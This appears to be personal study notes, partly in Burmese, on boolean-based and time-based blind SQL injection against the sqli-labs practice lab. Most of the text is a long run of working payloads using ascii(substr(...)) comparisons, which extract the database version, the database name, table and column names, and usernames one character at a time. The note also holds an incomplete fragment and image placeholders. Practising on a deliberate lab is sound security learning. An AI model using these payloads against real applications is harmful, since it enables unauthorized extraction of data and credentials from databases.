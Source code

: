 1. boolean base        and 1=1 (must true)    |  and . jl,,,,,,,,zcn
   1=2 (must be false)  |   'a'='a'(true)   | 'a'='b'(false)"
https://pastebin.com/gaSQ3KCH   => ko root note?"



2. time base   #### The most poweful in sql injection
![[Pasted image 20230131210348.png]]

![[Pasted image 20230131210539.png]]
Ta chot nay yar dwe mar space ka a lote ma lote bu so we use + sign  like upper example


![[Pasted image 20230131211040.png]]
time base ko condition net check dar


---->time base ka nay data pyan htoke dar -> ko root payload dwe use htar dwal

![[Pasted image 20230131211556.png]]




---

ko root note 

1' AND 1=1--+ == True

1' AND 1=0--+ == False

for version check

1' AND (ascii(substr((select version()),1,1))) = 53 --+ // 53 = 5

for database lenght check

1' AND (ascii(substr((select length(database())),1,1))) = 56--+ //56 = 8

for database check

1' AND (ascii(substr((select database()),1,1))) = 115 --+ //115 = s

1' AND (ascii(substr((select database()),2,1))) = 101 --+ //101 = e

1' AND (ascii(substr((select database()),3,1))) = 99 --+ //99 = c

1' AND (ascii(substr((select database()),4,1))) = 117--+ // u

1' AND (ascii(substr((select database()),5,1))) = 114--+ // r

1' AND (ascii(substr((select database()),6,1))) = 105--+ // i

1' AND (ascii(substr((select database()),7,1))) = 116--+ // t

1' AND (ascii(substr((select database()),8,1))) = 121 --+ //121 = y

for all table count

http://localhost/sqli-labs-master/Less-8/?id=1' AND (ascii(substr((select count(*) from information_schema.tables where table_schema=database() limit 0,1),1,1))) = 52 --+ // 52 = 4

Table length check

1' AND (ascii(substr((select length(table_name) from information_schema.tables where table_schema=database() limit 0,1),1,1))) = 54 --+ // 54 = 6

for table first columns

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))) = 101 --+ // e

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))) = 109 --+ // m

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),3,1))) = 97 --+ // a

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),4,1))) = 105 --+ // i

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),5,1))) = 108 --+ // l

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),6,1))) = 115 --+ // s

for table second columns

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))) = 114 --+

for table third columns

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 2,1),1,1))) = 117 --+

for table fourth columns length

1' AND (ascii(substr((select length(table_name) from information_schema.tables where table_schema=database() limit 3,1),1,1))) = 53 --+ // 5

for table foruth columns

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))) = 117 --+ // u

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),2,1))) = 115 --+ // s

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))) = 101 --+ // e

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),4,1))) = 114 --+ // r

1' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),5,1))) = 115 --+ // s

Next Column

1' AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="users" and table_schema=database() LIMIT 0,1),1,1))) = 117 --+ //u

1' AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="users" and table_schema=database() LIMIT 0,1),2,1))) = 115 --+ //s

1' AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="users" and table_schema=database() LIMIT 0,1),3,1))) = 101 --+ //e

1' AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="users" and table_schema=database() LIMIT 0,1),4,1))) = 114 --+ //r

1' AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="users" and table_schema=database() LIMIT 0,1),5,1))) = 95 --+ //_

Or

1' AND (ascii(substr((select concat(column_name)+from+information_schema.columns+where+table_name=0x7573657273 limit 3,1),1,1))) = 117 --+ //u

1' AND (ascii(substr((select concat(column_name)+from+information_schema.columns+where+table_name=0x7573657273 limit 3,1),2,1))) = 115 --+ //s

1' AND (ascii(substr((select concat(column_name)+from+information_schema.columns+where+table_name=0x7573657273 limit 3,1),3,1))) = 101 --+ //e

1' AND (ascii(substr((select concat(column_name)+from+information_schema.columns+where+table_name=0x7573657273 limit 3,1),4,1))) = 114 --+ //r

Dump

1' AND (ascii(substr((SELECT username FROM security.users LIMIT 0,1),1,1))) = 68 --+ //D

1' AND (ascii(substr((SELECT username FROM security.users LIMIT 0,1),2,1))) = 117--+ //u

1' AND (ascii(substr((SELECT username FROM security.users LIMIT 0,1),3,1))) = 109 --+//m

1' AND (ascii(substr((SELECT username FROM security.users LIMIT 0,1),4,1))) = 98 --+ //b



